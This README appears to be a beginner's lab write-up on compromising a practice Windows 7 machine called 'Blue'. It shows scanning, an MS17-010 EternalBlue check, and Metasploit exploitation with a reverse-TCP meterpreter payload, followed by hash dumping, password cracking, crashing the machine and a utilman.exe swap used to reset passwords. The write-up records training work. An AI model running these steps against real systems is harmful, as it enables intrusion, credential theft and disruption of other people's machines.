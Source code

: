 ![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/49ded029b6c2f3238d85e40ace2076e37c81776b/Blue/images/logo.png)

# Blue

This is the Fifth Box i tired.

Let's start with finding the `ip address` of `Blue`

## Scanning

You can use `netdiscover` to find the ip address of the `Blue' Machine :

```
netdiscover -r [yourip]/24

Check for the one with Vritual Machine names on it
```
Now let's do an `nmap` scan.

```
nmap -p- -A -T4 [Target IP]

```
Results:


![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/49ded029b6c2f3238d85e40ace2076e37c81776b/Blue/images/nmap.png)

![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/49ded029b6c2f3238d85e40ace2076e37c81776b/Blue/images/nmap2.png)

We found these ports open:


- `135/tcp   open  msrpc        Microsoft Windows RPC`
- `139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn`
- `445/tcp   open  microsoft-ds Windows 7 Ultimate 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)`

Now after searching for this in google i found `eternal blue exploit` from [**Rapid7**](https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue/)


![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/49ded029b6c2f3238d85e40ace2076e37c81776b/Blue/images/ms17-010.png)

And this is how you can use it :

![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/49ded029b6c2f3238d85e40ace2076e37c81776b/Blue/images/msexploit.png)

You can check for `eternalblue` exploits using tools like **Searchsploit**

![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/49ded029b6c2f3238d85e40ace2076e37c81776b/Blue/images/searchsploit%20eter.png)

Now what is that :

```
Eternal Blue is an exploit that targets a vulnerability in the Windows implementation of the Server Message Block (SMB) protocol. SMB is a network file-sharing protocol that allows users to access files and printers on a local network.

The vulnerability, known as CVE-2017-0144, exists in the way Windows handles SMBv1 requests. Specifically, it affects the way Windows processes specially crafted SMBv1 packets that contain malicious code.

Here's a step-by-step breakdown of the exploit:

1. Initial Compromise: An attacker sends a specially crafted SMBv1 packet to a vulnerable Windows machine.
2. Buffer Overflow: The packet causes a buffer overflow in the Windows SMBv1 implementation, allowing the attacker to execute malicious code.
3. Shellcode Execution: The malicious code, known as shellcode, is executed in the context of the Windows kernel.
4. Kernel Mode Access: The shellcode gains access to the Windows kernel mode, allowing it to execute arbitrary code with elevated privileges.
5. Payload Delivery: The shellcode delivers a payload, such as malware or a backdoor, to the compromised machine.
6. Propagation: The malware can spread to other vulnerable machines on the network via SMB, creating a worm-like effect.
```
This is a manual way of exploiting this box using this [**Tool**](https://github.com/3ndG4me/AutoBlue-MS17-010).

But let's check if it's acutally vulnerable or not.

we can do that using this module :

`auxiliary/scanner/smb/smb_ms17_010`
```
$ msfconsole

$ msf5 > search eternalblue

$ msf5 > use 1

$ msf5 auxiliary(scanner/smb/smb_ms17_010) > options

$ msf5 auxiliary(scanner/smb/smb_ms17_010) >  set rhosts [blue ip]

$ msf5 auxiliary(scanner/smb/smb_ms17_010) > run

[it will check if the target machine is vulnerable to any smb - MS17-010]
```
![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/49ded029b6c2f3238d85e40ace2076e37c81776b/Blue/images/msfchecksmb.png)

Yep, it is vulnerable to `ms17_010_eternalblue`

You can also check it by [**this**](https://github.com/3ndG4me/AutoBlue-MS17-010) script

![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/49ded029b6c2f3238d85e40ace2076e37c81776b/Blue/images/etrnalbluchecker.png)

It say's `Target is not patched` so it's vulnerable.

## Exploitation

Now let's run `msfconsole`.

![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/49ded029b6c2f3238d85e40ace2076e37c81776b/Blue/images/use%20exploit%20smb.png)

```
$ msf5 exploit(windows/smb/ms17 010 eternalblue) > options

$ msf5 exploit(windows/smb/ms17 010 eternalblue) > set rhosts [blue ip]

$ msf5 exploit(windows/smb/ms17 010 eternalblue) > set payload windows/x64/meterpreter/reverse_tcp

$ msf5 exploit(windows/smb/ms17 010 eternalblue) > set lhost [your ip]

$ msf5 exploit(windows/smb/ms17 010 eternalblue) > run

```
![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/49ded029b6c2f3238d85e40ace2076e37c81776b/Blue/images/meterpretershell.png)

- We can dump the hashes using `hashdump` :

![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/49ded029b6c2f3238d85e40ace2076e37c81776b/Blue/images/hashdump.png)

- Take a screenshot :

![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/49ded029b6c2f3238d85e40ace2076e37c81776b/Blue/images/screenshot.png)


![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/49ded029b6c2f3238d85e40ace2076e37c81776b/Blue/images/Blue.jpeg)

- Getting `shell` :

![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/49ded029b6c2f3238d85e40ace2076e37c81776b/Blue/images/authsystem.png)

Cracked the password :

![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/49ded029b6c2f3238d85e40ace2076e37c81776b/Blue/images/password%20crack.png)

We can also crash this machine by doing like this 

![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/49ded029b6c2f3238d85e40ace2076e37c81776b/Blue/images/crash.png)

```
(I need to learn more about these things !)
```
I also tried a simple trick in where you can rename the `utilman.exe` to `utilman2.exe` & 
`cmd.exe` to `utilman.exe` present in the `system32` folder.

(Found this one [**Loi Liang Yang**](https://youtu.be/2v-mGf4_9-A?feature=shared) channel)

This give you access to `cmd prompt` from the `user login window` and you can easily change user's password using :
```
net user [username][password]
```

![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/49ded029b6c2f3238d85e40ace2076e37c81776b/Blue/images/utilman.png)


```
5 Down 1 to go
```








